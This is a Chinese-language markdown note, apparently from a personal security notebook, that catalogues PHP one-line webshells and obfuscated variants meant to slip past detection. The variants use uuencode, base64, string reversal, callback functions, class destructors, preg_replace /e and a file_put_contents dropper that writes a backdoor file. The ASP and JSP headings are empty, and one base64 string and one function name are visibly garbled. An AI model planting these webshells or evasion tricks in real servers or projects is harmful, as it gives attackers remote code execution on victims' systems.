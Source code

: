 ## webshell木马
#木马 #webshell
### php
**一句话木马原型：**
```php
<?php eval($_POST["a"]);?>
```
两个函数`eval`和`assert`,**eval是语言构造器而非函数，不能被可变函数调用。**
可用的php字符串操作
```php
convert_uudecode() #解码一个 uuencode 编码的字符串。
convert_uuencode() #使用 uuencode 编码一个字符串。
ucwords() #函数把字符串中每个单词的首字符转换为大写。
strrev () #反转字符串
trim() #函数从字符串的两端删除空白字符和其他预定义字符。
substr_replace() #函数把字符串的一部分替换为另一个字符串
substr() #函数返回字符串的一部分。
strtr() #函数转换字符串中特定的字符。
strtoupper() #函数把字符串转换为大写。
strtolower() #函数把字符串转换为小写。
implode()  #将一个一维数组的值转化为字符串。
str_rot13() #函数对字符串执行 ROT13 编码。
```
**编码绕过：**
```php
<?php
// 使用 uuencode 编码一个字符串
$a=convert_uuencode("assert");
$b=convert_uudecode($a);
$b($_POST["a"]);
?>
```
**自定义函数绕过：**
```php
<?php
function change($a){
    $a($_POST["a"]);
}
change(assert);
?>
```
可用的回调函数：
```php
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
registregister_shutdown_function()
register_tick_function()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
array_reduce()
array_walk() 
array_walk_recursive()
```
**回调函数绕过：**
```php
<?php 
forward_static_call_array(assert,array($_POST["a"]));
?>
```
**函数+回调绕过：**
```php
<?php
function change($a,$b){
    forward_static_call_array($a,$b);
}
change(assert,array($_POST["a"]));
?>
```
**类+回调绕过：**
```php
<?php
class change{
    var $a;
    var $b;
    function __construct($a,$b)
    {
        $this->a=$a;
        $this->b=$b;
    }
    function test(){
        forward_static_call_array($this->a,$this->b);
    }
}
$s1= new change(assert,array($_POST["a"]));
$s1->test();
?>
```
**特殊符号绕过：**
```php
<?php
$a = $_POST[\'a\'];
$b = "\n";
eval($b.=$a);
?>
```
**数组绕过：**
```php
<?php
$a=strrev("tressa");
$b=[\'\'=>$a($_POST["a"])];
?>
```
**类绕过：**
```php
<?php 
class change
{
  public $a = \'\';
  function __destruct(){
    assert("$this->a");
  }
}

$b = new change;
$b->a = $_POST["a"];
?>
```
**base64编码绕过：**
```php
<?php
$a = base64_decode("YXNz+ZX____J____0");
$a($_POST["a"]);
?>
```
```php
```
**create_function：**
```php
<?php 
$fun = create_function('',$_POST['a']);
$fun();
?>
```
**call_user_func：**
```php
<?php
@call_user_func(assert,$_POST['a']);
?>
```
**preg_replace：**
/e参数可以将后面的参数作为代码执行。
```php
<?php 
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>

<?php @mb_ereg_replace('.*',$_POST['a'],'','ee');?>
<?php @mb_eregi_replace('.*',$_POST['a'],'','ee');?>

<?php @mbereg_replace('.*',$_POST['a'],'','ee');?>
<?php @mberegi_replace('.*',$_POST['a'],'','ee');?>
```
**file_put_contents：**
```php
<?php
$test='<?php $a=$_POST["a"];assert($a); ?>';
file_put_contents("core.php", $test);
?>
```
**parse_str：**
```php
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
```
### asp
```

```
### jsp